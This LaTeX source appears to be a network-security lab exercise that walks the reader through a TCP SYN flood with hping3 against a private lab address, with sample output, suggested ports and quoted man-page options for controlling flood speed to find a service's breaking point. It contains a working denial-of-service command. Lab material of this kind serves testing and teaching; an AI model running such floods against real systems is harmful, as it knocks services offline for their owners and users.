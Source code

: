 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp


{\bf Hints:}\\
The tool we use can do a lot of different things, and you can control the speed. You can measure at the server being attacked or what you are sending, commonly using ifpps or such programs can help.

By changing the speed we can find out how much traffic is needed to bring down a service. This measurement can then be re-checked later and see if improvements really worked.

This allows you to use the tool to test devices and find the breaking point, which is more interesting than if you can overload, because you always can.
\begin{alltt}\footnotesize
-i --interval
       Wait  the  specified  number  of  seconds or micro seconds between sending each packet.
       --interval X set wait to X seconds, --interval uX set wait to X micro seconds.  The de‐
       fault  is  to  wait one second between each packet. Using hping3 to transfer files tune
       this option is really important in order to increase transfer rate. Even  using  hping3
       to  perform  idle/spoofing  scanning  you should tune this option, see HPING3-HOWTO for
       more information.

--fast Alias for -i u10000. Hping will send 10 packets for second.

--faster
       Alias for -i u1. Faster then --fast ;) (but not as fast as your computer can send pack‐
       ets due to the signal-driven design).

--flood
       Sent  packets  as fast as possible, without taking care to show incoming replies.  This
       is ways faster than to specify the -i u0 option.
\end{alltt}
\end{document}
